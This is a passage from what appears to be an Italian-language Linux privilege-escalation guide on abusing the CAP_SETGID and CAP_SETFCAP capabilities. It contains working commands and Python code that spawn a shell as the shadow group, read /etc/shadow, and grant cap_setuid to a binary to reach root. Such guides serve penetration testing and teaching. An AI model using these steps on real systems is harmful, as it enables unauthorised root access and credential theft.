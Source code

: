 Ci sono molti file che puoi **sovrascrivere per elevare i privilegi,** [**puoi prendere spunti da qui**](payloads-to-execute.md#overwriting-a-file-to-escalate-privileges).

**Esempio con binario**

In questo caso dovresti cercare file interessanti che un gruppo può leggere perché puoi impersonare qualsiasi gruppo:
```bash
#Find every file writable by a group
find / -perm /g=w -exec ls -lLd {} \; 2>/dev/null
#Find every file writable by a group in /etc with a maxpath of 1
find /etc -maxdepth 1 -perm /g=w -exec ls -lLd {} \; 2>/dev/null
#Find every file readable by a group in /etc with a maxpath of 1
find /etc -maxdepth 1 -perm /g=r -exec ls -lLd {} \; 2>/dev/null
```
Una volta trovato un file che puoi sfruttare (tramite lettura o scrittura) per elevare i privilegi, puoi **ottenere una shell impersonando il gruppo interessante** con:
```python
import os
os.setgid(42)
os.system("/bin/bash")
```
In questo caso, il gruppo shadow è stato impersonato, quindi puoi leggere il file `/etc/shadow`:
```bash
cat /etc/shadow
```
Se **docker** è installato, puoi **impostare** il **gruppo docker** e abusarne per comunicare con il [**docker socket** e aumentare i privilegi](#writable-docker-socket).

## CAP_SETFCAP

**Questo significa che è possibile impostare capacità su file e processi**

**Esempio con binario**

Se python ha questa **capacità**, puoi facilmente abusarne per aumentare i privilegi a root:
```python:setcapability.py
import ctypes, sys

#Load needed library
#You can find which library you need to load checking the libraries of local setcap binary
# ldd /sbin/setcap
libcap = ctypes.cdll.LoadLibrary("libcap.so.2")

libcap.cap_from_text.argtypes = [ctypes.c_char_p]
libcap.cap_from_text.restype = ctypes.c_void_p
libcap.cap_set_file.argtypes = [ctypes.c_char_p,ctypes.c_void_p]

#Give setuid cap to the binary
cap = 'cap_setuid+ep'
path = sys.argv[1]
print(path)
cap_t = libcap.cap_from_text(cap)
status = libcap.cap_set_file(path,cap_t)

if(status == 0):
print (cap + " was successfully added to " + path)
```
